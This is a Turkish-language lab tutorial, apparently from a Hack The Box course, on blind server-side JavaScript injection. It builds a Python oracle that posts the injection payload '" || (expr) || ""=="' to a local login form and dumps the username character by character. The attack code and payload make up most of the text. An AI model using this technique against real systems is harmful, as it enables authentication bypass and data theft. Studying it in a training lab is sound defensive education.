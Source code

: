 ### Developing Script

Önceki bölümde, hedefin kullanıcı adının ilk beş karakterini (`HTB{?)` çıkarmayı başarmış olmalısınız. Geri kalan karakterleri çıkarmak için yüzlerce request göndermek yerine, (blind) SSJI aracılığıyla kullanıcı adını dump etmek için başka bir Python **script** yazacağız.

İlk olarak, `oracle` fonksiyonunu ve gerekli importları tanımlayacağız. Önceki bölümde, `" || true || ""=="` payload'ını kullanmıştık çünkü `true`'nun doğru olarak değerlendirilmesi biliniyor (açıkça). Bu **function**'da, `true`'yu sunucunun değerlendirmesini istediğimiz rastgele bir ifadeyle değiştireceğiz. Eğer ifade true dönerse, giriş yapılmış olur ve **function** `true` döndürür (`r.text` içinde "`Logged in as`" tespit edilir), eğer ifade `false` dönerse giriş yapılmaz, bu durumda **function** false döndürür.

Zaten şifrenin önemli olmadığını belirlemiştik, bu yüzden sabit bir '`x`' olarak ayarlayabiliriz.

```python
import requests
from urllib.parse import quote_plus

# Oracle (cevaplar True veya False)
num_req = 0
def oracle(r):
    global num_req
    num_req += 1
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text
```

Oracle fonksiyonu tanımlandıktan sonra, doğru çalıştığını aşağıdaki iki **`assert`** ifadesiyle test edebiliriz:

```python
# Oracle'ın doğru çalıştığından emin olun
assert (oracle('false') == False)
assert (oracle('true') == True)
```

Şimdi her şey hazır olduğuna göre, kullanıcı adını **`Automating Blind Data Extraction`** bölümündeki **script**'e benzer şekilde **dump** etmeye devam edebiliriz. Bu bölümde, alfabenin yalnızca `0-9a-f` ile sınırlı olmadığını, bunun yerine tüm yazdırılabilir [ASCII karakterlerinin (32-127)](https://www.asciitable.com/) kullanıldığını unutmamalısınız.

```python
# Kullanıcı adını dump edin (‘regular’ search)
num_req = 0 # Request counter'ı 0'a ayarlayın
username = "HTB{" # Bilinen kullanıcı adı başlangıcı
i = 4 # İlk 4 karakteri atlamak için i'yi 4 olarak ayarlayın (HTB{)
while username[-1] != "}": # '}' (kullanıcı adının bilinen sonu) atılana kadar tekrarlayın
    for c in range(32, 127): # Tüm yazdırılabilir ASCII karakterleri arasında döngü
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c) # İfade True olarak değerlendirilirse geçerli karakteri kullanıcı adına ekle
            break # Ve döngüyü kır
    i += 1 # Indeks sayacını artırır
assert (oracle('this.username == `%s`' % username) == True) # Kullanıcı adını doğrulayın
print("---- Regular search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
```
